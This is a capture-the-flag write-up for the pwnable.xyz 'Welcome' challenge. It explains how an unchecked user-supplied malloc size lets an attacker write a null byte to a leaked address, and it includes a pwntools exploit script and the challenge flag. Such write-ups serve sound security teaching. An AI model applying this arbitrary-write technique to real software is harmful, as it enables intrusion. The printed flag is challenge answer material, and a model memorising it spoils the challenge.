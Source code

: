 # pwnable.xyz - Welcome
Link to binary: https://pwnable.xyz/redisfiles/challenge_21.gz

Description: *Are you worthy to continue?*

## binary
Running `file` and `checksec` commands on the binary, reveals that it's a **64-bit ELF** with all the protections enabled.

![](images/file.png)
![](images/checksec.png)

This usually means that the vulnerability will either be a **logic mistake** in the code or a **heap** related one, especially if there's no way to get any leaks. I expect nothing too hard though since this is supposed to be a *welcome* challenge.

## ./challenge
Let's run the binary first.

![](images/run.png)

Running the binary prints a leak, asks for a message length and a message of our choice and then exits. If the provided message is bigger than the length specified, the additional characters are ignored. So, let's see what's going on behind the scenes.

## IDA

Decompile the binary with IDA:

### main()
![](images/main.png)

Our goal here is to call `system("cat /flag")` and print the flag on the remote server. To do that, the expression `!*v3` must be true, which means that the first byte of v3 (**v3[0]**) must be equal to **0** but the program sets it to **1** right after it allocates space for the v3 buffer. The program then prints the address of v3 which is our *leak*, so we know where v3 is located, but it is not used again in the binary.

On our part, we control the **size** or **size[0]** variable through scanf() which is used to allocate a buffer (**v4**) of that size. We can also write up to that many bytes in the v4 buffer.

## vulnerability
The issue here is that the program attempts to write a null byte (as it should) at the end of the v4 buffer after writing to it, `v4[size[0] - 1] = 0` but in a not secure way. Since we control the size[0] variable, this line of code introduces an **arbitrary write** vulnerability through the v4 buffer, which allows us to write a **0** (null byte) **wherever** we want in the address space.

## attack plan
Now it should be pretty obvious what we're trying to do.. We just have to specify the leaked address of the v3 buffer as the message length and add 1 to it, so that line 21 will look something like this: `v4[v3[0]] = 0` which will successfully write a **0** at the first byte of **v3** and print the flag.

## exploit
Here is the script that grabs the leak and sends it as the message length:

```python  
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b *__libc_start_main+133
'''

IP = "svc.pwnable.xyz"
PORT = 30000 

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()
    
    # Receive buffer leak
    io.recvuntil(": ")
    leak = int(io.recvline()[:-1], 16)
    log.info(f"buf leak: {hex(leak)}")
	
    # Send leak
    io.sendlineafter(": ", str(leak+1))
    io.sendlineafter(": ", "")
    
    print(io.recvall())

if __name__ == "__main__":
    pwn()
```

Run it on the server and we get the flag: `FLAG{did_you_really_need_a_script_to_solve_this_one?}`
(ouch)
